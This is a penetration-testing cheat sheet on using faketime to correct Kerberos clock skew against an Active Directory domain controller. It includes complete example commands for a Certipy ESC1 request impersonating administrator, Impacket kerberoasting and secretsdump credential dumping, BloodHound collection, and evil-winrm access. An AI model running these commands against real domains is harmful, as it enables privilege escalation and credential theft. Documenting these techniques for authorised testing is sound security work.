

# Faketime Cheat Sheet — Beating Kerberos Clock Skew

> [!info] The problem
> Kerberos rejects requests whose timestamp differs from the DC by more than the allowed skew window (default **5 minutes**). You see:
> ```
> Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
> ```
> Rather than change your host clock (which breaks other things), wrap the *one* tool that needs it with `faketime`.

```bash
sudo apt install faketime      # ships as libfaketime
```

`faketime` intercepts time calls (`gettimeofday`, `clock_gettime`) via `LD_PRELOAD` for the wrapped process only. Your system clock stays untouched.

---

## Table of Contents

1. [Measuring the Skew](#1-measuring-the-skew)
2. [Faketime Offset Syntax](#2-faketime-offset-syntax)
3. [The 7h30m Worked Example](#3-the-7h30m-worked-example)
4. [Wrapping the Tools](#4-wrapping-the-tools)
5. [Absolute-Time Method (ntpdate)](#5-absolute-time-method-ntpdate)
6. [Questions & Answers](#6-questions--answers)
7. [Gotchas](#7-gotchas)

---

## 1. Measuring the Skew



**nmap** reports skew directly on many AD services:

```bash
nmap -p 445,88 --script smb2-time,clock-skew -Pn dc01.corp.local
# ... | clock-skew: mean: 7h30m00s, deviation: 0s, median: 7h30m00s
```

Or query the DC's time straight (needs `ntpdate` / `ntpsec-ntpdate`):

```bash
ntpdate -q dc01.corp.local          # prints offset in seconds, e.g. "offset 27000.0..."
sudo ntpdate -u dc01.corp.local     # actually sync (alternative to faketime)
rdate -n dc01.corp.local            # another quick reader
```

> [!tip] Sign matters
> nmap's clock-skew is **DC minus you**. `7h30m` positive = the DC is *ahead* of you, so you must push your faked clock **forward** (`+7h30m`). If the DC is *behind*, go backward (`-7h30m`).

---

## 2. Faketime Offset Syntax

`faketime` takes a timestamp specifier as its first argument, then the command:

```bash
faketime '<time-spec>' <command> [args...]
```

Relative offsets use a leading `+` or `-` and unit suffixes:

| Unit | Meaning |
| :-- | :-- |
| `s` | seconds |
| `m` | minutes |
| `h` | hours |
| `d` | days |
| `y` | years |

```bash
faketime '+7h30m'  <cmd>      # 7 hours 30 minutes into the future
faketime '-7h30m'  <cmd>      # 7 hours 30 minutes into the past
faketime '+27000s' <cmd>      # same as +7h30m, in raw seconds
faketime '-1h'     <cmd>      # one hour back
```

> [!note] `-f` for programs that fork/exec
> Many pentest tools spawn children or advance their own clock. Add `-f` (follow) so the faked time propagates to child processes:
> ```bash
> faketime -f '+7h30m' certipy-ad find ...
> ```
> Use `-f` by default when wrapping Python/impacket tooling.

---

## 3. The 7h30m Worked Example

Scenario: `nmap` shows `clock-skew: median: 7h30m00s` and the DC is **ahead**.

```bash
# 1. Confirm direction and magnitude
nmap -p 445 --script smb2-time,clock-skew -Pn 10.10.10.5

# 2. Everything Kerberos-related now gets the wrapper:
faketime -f '+7h30m' <your-kerberos-tool>

# If the DC were 7h30m BEHIND you instead:
faketime -f '-7h30m' <your-kerberos-tool>
```

That single prefix is all that changes — the tool itself is invoked exactly as normal after it.

---

## 4. Wrapping the Tools

> [!warning] Wrap the process that talks Kerberos
> Prefix `faketime -f '<offset>'` directly onto the command. Do **not** pipe or subshell it away.

### Certipy (AD CS / ESC attacks)

```bash
# Enumerate templates over Kerberos with skew correction
faketime -f '+7h30m' certipy-ad find -u 'user@corp.local' -p 'Passw0rd!' \
  -dc-ip 10.10.10.5 -k -no-pass -vulnerable -stdout

# Request a cert (ESC1) with a fake time
faketime -f '+7h30m' certipy-ad req -u 'user@corp.local' -p 'Passw0rd!' \
  -ca 'CORP-CA' -template 'VulnTemplate' -upn 'administrator@corp.local' \
  -dc-ip 10.10.10.5

# Authenticate with the resulting PFX (PKINIT) — also needs correct time
faketime -f '+7h30m' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.10.5
```

### bloodhound-ce-python (collection over Kerberos)

```bash
# Collect using a Kerberos ticket (ccache) with skew correction
faketime -f '+7h30m' bloodhound-ce-python -d corp.local -u user -k -no-pass \
  -dc dc01.corp.local -ns 10.10.10.5 -c All --zip
```

See bloodhound-ce-python-cheatsheet for the full flag set.

### Impacket (secretsdump, GetUserSPNs, psexec, wmiexec)

```bash
export KRB5CCNAME=user.ccache
faketime -f '+7h30m' impacket-GetUserSPNs -k -no-pass -dc-host dc01.corp.local corp.local/user
faketime -f '+7h30m' impacket-secretsdump -k -no-pass corp.local/user@dc01.corp.local
faketime -f '+7h30m' impacket-getTGT corp.local/user:'Passw0rd!' -dc-ip 10.10.10.5
```

### netexec / evil-winrm

```bash
faketime -f '+7h30m' netexec smb dc01.corp.local -u user -p 'Passw0rd!' -k
faketime -f '+7h30m' evil-winrm -i dc01.corp.local -u administrator -r corp.local
```

---

## 5. Absolute-Time Method (ntpdate)

Instead of computing an offset, pin faketime to the DC's *actual* clock. This auto-corrects magnitude **and** direction:

```bash
# Grab the DC's current time and hand it straight to faketime
faketime -f "$(sudo ntpdate -q dc01.corp.local | head -n1 | awk '{print $1, $2}')" \
  certipy-ad find -u 'user@corp.local' -p 'Passw0rd!' -dc-ip 10.10.10.5 -k
```

> [!tip] When to use which
> **Relative (`+7h30m`)** is fastest when nmap already gave you the skew. **Absolute (ntpdate)** is safer when you're unsure of the direction or the skew is odd (leap seconds, wrong timezone on your box).

---

## 6. Questions & Answers

### Q: nmap says `clock-skew: median: 7h30m00s`. What faketime prefix do I use?
**Approach:** nmap reports DC-minus-you; a positive value means the DC is ahead.
```bash
faketime -f '+7h30m' <tool>
```
**Answer:** `+7h30m` (if the DC is ahead). Use `-7h30m` if it's behind.

### Q: I keep getting `KRB_AP_ERR_SKEW` even with faketime. Why?
**Answer:** Likely missing `-f`, wrong sign, or your host timezone is off. Confirm with `sudo ntpdate -q <dc>` and prefer the absolute-time method (§5).

### Q: Does faketime change my real system clock?
**Answer:** No. It only alters what the wrapped process sees via `LD_PRELOAD`. Everything else stays on real time.

### Q: Can I just run `ntpdate` to sync instead?
**Answer:** Yes — `sudo ntpdate -u dc01.corp.local` syncs your whole host. It's simpler but affects every process and needs root; faketime is surgical and rootless.

---

## 7. Gotchas

> [!warning] Common pitfalls
> - **Forgot `-f`** — child/fork'd processes (most Python tools) don't inherit the fake clock without it.
> - **Wrong sign** — pushing the clock the wrong way doubles the skew instead of cancelling it.
> - **Timezone drift** — if your host TZ is wrong, the seconds offset can look bizarre; use absolute time.
> - **Statically linked binaries** — faketime relies on `LD_PRELOAD`, so it can't hook fully static binaries (rare for pentest tooling).
> - **Wrapping a shell, not the tool** — `faketime -f '+7h30m' bash -c '...'` works, but prefix the actual tool where possible.

---

## See Also

- bloodhound-ce-python-cheatsheet — CE collector, all with faketime notes
- BloodHound-Python_Cheatsheet — legacy BloodHound python collector
- Kerberos — tickets, roasting, PKINIT
